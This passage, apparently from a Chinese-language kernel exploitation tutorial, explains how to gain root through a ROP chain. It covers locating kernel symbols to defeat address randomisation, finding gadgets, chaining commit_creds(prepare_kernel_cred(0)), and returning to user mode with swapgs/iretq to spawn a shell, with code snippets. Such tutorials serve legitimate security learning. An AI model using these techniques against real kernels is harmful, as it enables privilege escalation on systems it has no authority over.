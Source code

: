 符号表分为`地址、类型、函数名`三列，读取每一项后比对函数名就可以找到真实地址，这里用了`fscanf`函数。

```c
int fscanf(FILE *stream, const char *format, ...)
//返回值为读取的个数
//读取地址
fscanf(symbols_table, "%llx%s%s", &addr, type, func_name);
```

读到真实地址后，用`真实地址-偏移`即可得到运行中kernel的基地址，借此我们可以计算出**两个基地址之间的偏移**。

#### 获取gadget

获取gadget同样需要利用vmlinux，可以直接使用`ROPgadget`来搜，不过这样分析一次vmlinux的时间挺长的，可以先把所有gadget搜出来，然后再用grep找。

```sh
ROPgadget --binary vmlinux > gadget
cat gadget | grep '...'
```

对于找不到的gadget，可以用pwntools

```py
from pwn import*
elf=ELF("./vmlinux")
context.arch='amd64' # 记得设置arch，不然找不到
print(hex(elf.search(asm('iretq')).__next__()))
```

执行`commit_creds(prepare_kernel_cred(0))`的时候，因为返回值存在`rax`，因此我们需要`mov rdi, rax ;`之后再`commit_creds()`。

这里找不到`mov rdi, rax ; ret`的gadget，因此用`mov rdi, rax; call rdx`来替代，所以要提前设置好`rdx`。除此之外，`call rdx`会将`rdx`**指向指令的下一条指令（地址上）入栈**，这会让rop链断开，因此`rdx`指向的指令需要把这个入栈的指令除掉，并通过`ret`接上rop链，这里用的是`pop rcx; ret`。

#### 返回用户态

为了让内核函数执行完成后能够顺利返回用户态，需要在用户态保存一些寄存器的值，这个函数应该首先被执行：

```c
size_t user_cs, user_ss, user_rflags, user_sp;
void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}
```

而在返回用户态时，只需要在栈中构造好保存的用户状态，执行`swapg; iretq`就能返回用户态。

```c
//最后的栈布局，用于返回用户态
↓   swapgs
    iretq
    user_shell_addr // get shell函数的地址
    user_cs
    user_eflags //64bit user_rflags
    user_sp
    user_ss
```
